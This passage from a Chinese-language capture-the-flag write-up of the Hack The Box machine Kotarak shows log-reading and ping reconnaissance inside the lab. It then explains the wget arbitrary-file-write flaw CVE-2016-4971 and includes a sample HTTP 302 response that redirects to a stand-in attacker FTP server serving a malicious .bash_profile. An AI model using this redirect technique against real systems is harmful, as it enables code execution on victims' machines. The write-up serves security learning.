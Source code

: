 `atanas`用户可以直接查看`/root/`目录下文件，查看`flag.txt`文件并无`flag`，通过`access.log`文件可以发现有台机器使用了低版本的`wget`请求`/archive.tar.gz`路径，并且每次请求间隔是2分钟

```bash
atanas@kotarak-dmz:/root$ cat app.log 
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
atanas@kotarak-dmz:/root$ cat flag.txt
Getting closer! But what you are looking for can't be found here.
atanas@kotarak-dmz:/root$ 
```

使用`find`命令查看本地并没有`archive.tar.gz`，使用`ping`日志中的`10.0.3.133`来源IP，发现可以ping通，可以想到是要拿下`10.0.3.133`机器的权限

```bash
atanas@kotarak-dmz:/root$ find / -name archive.tar.gz 2>/dev/null
atanas@kotarak-dmz:/root$                                        
atanas@kotarak-dmz:/root$ ping 10.0.3.133                        
PING 10.0.3.133 (10.0.3.133) 56(84) bytes of data.
64 bytes from 10.0.3.133: icmp_seq=1 ttl=64 time=0.066 ms
64 bytes from 10.0.3.133: icmp_seq=2 ttl=64 time=0.095 ms
^C
--- 10.0.3.133 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 999ms
rtt min/avg/max/mdev = 0.066/0.080/0.095/0.017 ms
atanas@kotarak-dmz:/root$ 
```

## wget漏洞

使用`searchsploit`查下`wget`的漏洞，在`wget`版本低于`1.18`可以rce，而目标版本使用的是`1.16`，符合条件

![](HTB之Kotarak/image_uYRoWq3huZ.png)

下面介绍下该漏洞（CVE-2016-4971），更多漏洞详情和poc可参考[https://www.exploit-db.com/exploits/40064](https://www.exploit-db.com/exploits/40064 "https://www.exploit-db.com/exploits/40064")

## CVE-2016-4971

`wget`默认情况下是将请求url中的文件名作为下载到本地的文件名，例如`wget`请求`http://website.com/folder/file.txt`，文件会保存在当前目录下，文件名为`file.txt`

在`wget`版本低于`1.18`时，若`wget`的`http`目标存在`30x`跳转到一个`ftp`地址，本地保存的文件名将会是`ftp`上的文件名，而忽略掉`http`目标的文件名。

例如用户请求`wget http://attackers-server/safe_file.txt`，攻击者可以构造一个302返回，将请求跳转到包含恶意文件的ftp服务器上

```http
HTTP/1.1 302 Found
Cache-Control: private
Content-Type: text/html; charset=UTF-8
Location: ftp://attackers-server/.bash_profile
Content-Length: 262
Server: Apache
```
